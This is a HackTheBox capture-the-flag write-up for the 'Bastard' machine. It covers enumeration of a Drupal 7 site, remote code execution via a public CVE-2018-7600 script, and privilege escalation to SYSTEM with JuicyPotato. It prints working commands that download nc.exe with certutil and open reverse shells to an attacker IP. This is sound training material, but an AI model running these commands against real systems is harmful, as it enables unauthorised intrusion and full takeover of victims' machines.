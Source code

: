 ```yaml
---
description: https://www.hackthebox.eu/home/machines/profile/7
---
```


# Bastard

## Nmap

We can start off running `nmap -p- -T4` to quickly enumerate all available ports before running a more thorough scan on the alive ports with `nmap -p 80,135,49154 -A -T4`.

```
nmap 10.10.10.9 -p- -T4

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

nmap 10.10.10.9 -p 80,135,49154 -A -T4

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.88 seconds
```

## HTTP

On port 80 we come to a web server hosting Drupal.

![Drupal on http://10.10.10.9/](<../../../.gitbook/assets/image (200) (1).png>)

On running standard enumeration we come across robots.txt which has a large list of disallowed entries. I added these into a directory list and run through them with OWASP ZAP to if we can get any HTTP code 200 hits.

![](<../../../.gitbook/assets/image (201).png>)

The key files here are maintainers.txt and upgrade.txt. Inspecting both of these files can help us conclude it is likely we are on Drupal version 7.

![maintainers.txt](<../../../.gitbook/assets/image (202) (1).png>)

If you have the Wappalyzer extension installed we can also use this to help identify the correct Drupal version.

![Wappalyzer extension for Friefox.](<../../../.gitbook/assets/image (203).png>)

I also used Drupwn to try and identify a more exact version of Drupal that is running. (More enumeration never hurts) You can find the GitHub link for this in the resources section at the end of the writeup.

![Drupwn](<../../../.gitbook/assets/image (204) (1).png>)

We can take this information and run this against `searchsploit`:

![searchploit](<../../../.gitbook/assets/image (206).png>)

Just to note how important enumeration is here. Running `searchsploit` as `searchsploit drupal 7` returns over thirty potential results on screen where as defining the exact version of 7.54 returns only eight results in `searchsploit` as shown above.

I tried the exploits above both manual and `metasploit` for "Drupalgeddon" and could not get the scripts to work. At this point I looked further on Google and found an awesome RCE script by pimps [https://github.com/pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

With the script we have remote command execution using the `-c` switch. Once downloaded we can run the script with the follow syntax:

```
python3 exploit.py -c <command>  http://10.10.10.9
```

As shown below we can test working by running `whoami` in the script.

![testing for RCE](<../../../.gitbook/assets/image (208) (1).png>)

Lets see if we can upload `netcat` and get a reverse shell going. First move over to a directory which has `nc.exe` (kali comes pre-installed with this) and then run a `Python SimpleHTTPServer` as per below:

![locating nc.exe and running a python server](<../../../.gitbook/assets/image (209).png>)

We can now run `certutil.exe` to download `nc.exe` from our attacking machine.

![Download nc.exe from our attacking machine.](<../../../.gitbook/assets/image (210).png>)

Once downloaded set up a `netcat` listener on the attacking machine with a desired port. In my examples I am using port 5555.

```
nc -lvp 5555
```

Now we can run the python exploit again this time calling the `nc.exe` to connect back to our machine to create a shell.

```
python3 exploit.py -c "nc.exe -nv 10.10.14.21 5555 -e cmd.exe"  http://10.10.10.9
```

![](<../../../.gitbook/assets/image (211).png>)

We now have a reverse shell into the victim machine.

## User

From here we can run `net user` to find user accounts and then attempt to read the user flag on the desktop.

![](<../../../.gitbook/assets/image (212) (1).png>)

## Privilege Escalation

I initially check the `systeminfo`information against `windows_exploit_suggester.py` and found some potential avenue's of escalation due to missing patches. I also checked the privileges of the account we are running as since we are a service account.

![](<../../../.gitbook/assets/image (213) (1).png>)

As you can we have the following privilege `SeImpersonatePrivilege` which is usually assigned to service accounts and is usually vulnerable to Juicy Potato attacks which as far as I am aware is generally only patched in Windows Server 2019 and Windows 10 1809 and later

Given the fact we have the above privilege on a server running Windows 2008 R2 it is probably a juicy Potato attack that will result in privilege escalation.

The Juicy Potato binary can be downloaded from here: [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)

Once downloaded upload the binary to the server using `certutil.exe` just as we did earlier when uploading `nc.exe` except this time we can run the command in our reverse shell. Once downloaded we can start to build the command to gain a reverse shell.

```
juicypotato.exe -l 1234 -p nc.exe -a " -nv 10.10.14.21 3333 -e cmd.exe" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

* \-l : Create a listening port
* \-p: Program to launch
* \-a: use the following arguments
* \-t: createprocess call: CreateProcessWithTokenW, CreateProcessAsUser, <\*> try both
* \-c: <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})

In the above example command I passed `nc.exe` the arguments we used earlier on when gaining initial shell with a different port and for the `-c` {CLSID} the default BITS did not work for me so instead I defined the wuasrv service CLSID. A CLSID list for multiple Windows version can be found here: [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

Before running the above command set up a `netcat` listener on the attacking machine to catch the port in which you have defined.

```
nc -lvp 3333
```

Now run the command for `JuicyPotato.exe` and see if we can catch a reverse shell. You may need to run the command a few times for it to work. If you get the command output `[+] CreateProcessWithTokenW OK` then you know it has worked but, will need to check your command syntax if you have not caught a shell.

![running juicypotato.exe](<../../../.gitbook/assets/image (214) (1).png>)

As you can see we have caught a shell as `NT AUTHORITY\SYSTEM` and can now grab the root.txt.txt flag on the administrators desktop.

![](<../../../.gitbook/assets/image (215).png>)
